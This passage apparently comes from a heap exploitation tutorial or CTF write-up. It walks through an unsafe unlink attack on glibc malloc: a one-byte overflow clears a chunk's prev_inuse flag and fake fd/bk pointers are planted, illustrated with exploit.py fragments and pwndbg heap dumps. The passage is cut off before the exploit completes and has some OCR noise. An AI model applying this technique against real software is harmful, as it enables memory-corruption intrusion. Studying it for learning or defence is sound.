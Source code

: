 ```
0000555555757120     0000000000000000 0000000a414140b1
```

Even though we can corrupt the top chunk size field with this overflow, the House of Force techinque isn't viable here,
we just can't request enough memory or enough chunks. So lets consider how corrupting a "normal" chunk's size field might benefit us.

What would happen were to clear the second chunk's prev_inuse flag. We know that the prev_inuse flag is used by malloc to determine
 whater a previous chunk is a candidate for consolidation.

We also know that the consolidation process will involve unlinking the first chunk, but the first chunk isn't really free,
so it isn't  linked into a free list and therefore has no forward or backward pointers. However, this is our opportunity to provide them,
and remember an unsafe unlink operation on attacker-controlled pointers yields a reflected write primitive.

```
# exploit.py
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)
edit( chunk_A, b"Y"*0x88 + p64(0x90) )

pwndbg> vis

0x555555757000	0x0000000000000000	0x0000000000000091	................
0x555555757010	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757020	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757030	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757040	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757050	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757060	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757070	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757080	0x5959595959595959	0x5959595959595959	YYYYYYYYYYYYYYYY
0x555555757090	0x5959595959595959	0x0000000000000090	YYYYYYYY........
0x5555557570a0	0x0000000000000000	0x0000000000000000	................
0x5555557570b0	0x0000000000000000	0x0000000000000000	................
0x5555557570c0	0x0000000000000000	0x0000000000000000	................
0x5555557570d0	0x0000000000000000	0x0000000000000000	................
0x5555557570e0	0x0000000000000000	0x0000000000000000	................
0x5555557570f0	0x0000000000000000	0x0000000000000000	................
0x555555757100	0x0000000000000000	0x0000000000000000	................
0x555555757110	0x0000000000000000	0x0000000000000000	................
0x555555757120	0x0000000000000000	0x0000000000020ee1	................	 <-- Top chunk

```
Now if we tried to free chunk B now, malloc would check its prev_inuse flag, and attempt to consolidate chunk B with chunk A.
To find the start of chunk A needs to use chunk B's prev_size field. 

```
# exploit.py
chunk_A = malloc(0x88)
chunk_B = malloc(0x88)

fd = 0xdeadbeef
bk = 0xdeadbeef
prev_size = 0x90
fake_size = 0x90

edit( chunk_a, p64(fd)+p64(bk)+p8(0)*0x70 + p64(prev_size) + p64(fake_size) )


pwndbg> vis
```